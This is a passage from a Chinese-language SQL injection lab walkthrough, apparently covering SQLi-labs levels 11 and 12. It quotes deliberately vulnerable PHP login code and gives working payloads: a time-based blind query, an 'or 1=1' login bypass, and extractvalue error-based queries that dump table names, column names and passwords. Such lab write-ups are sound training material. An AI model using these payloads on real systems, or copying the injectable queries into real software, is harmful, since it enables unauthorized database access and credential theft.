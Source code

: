 猜列名

```
1" and (ascii(substr((select username from users limit 0,1),1,1)))=68 and if(1=1,sleep(2),1) -- a
```

## less-11 报错注入

报错注入，时间盲注

```php
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
       	$result=mysql_query($sql);
        $row = mysql_fetch_array($result);
        if($row)
        {
                echo 'Your Login name:'. $row['username'];
                echo "<br>";
                echo 'Your Password:' .$row['password'];
        }
        else  
        {
                print_r(mysql_error());
                echo "</br>";
        }
}
```

万能密码`1' or 1=1#`

报错注入

```
uname='+-extractvalue(1,concat(0x5c,(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+3,1)))-'
```

```
查表名
'+-extractvalue(1,concat(0x5c,(select+table_name+from+information_schema.tables+where+table_schema=database()+limit+3,1)))-'

查字段名
+-extractvalue(1,concat(0x5c,(select+column_name+from+information_schema.columns+where+table_name='users'+limit+1,1)))-'

查内容
'+-extractvalue(1,concat(0x5c,(select+password+from+security.users+limit+0,1)))-'
```

## less-12 报错注入

```php
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
if($row)
        {
                echo 'Your Login name:'. $row['username'];
                echo 'Your Password:' .$row['password'];
        }
        else  
        {
                print_r(mysql_error());
```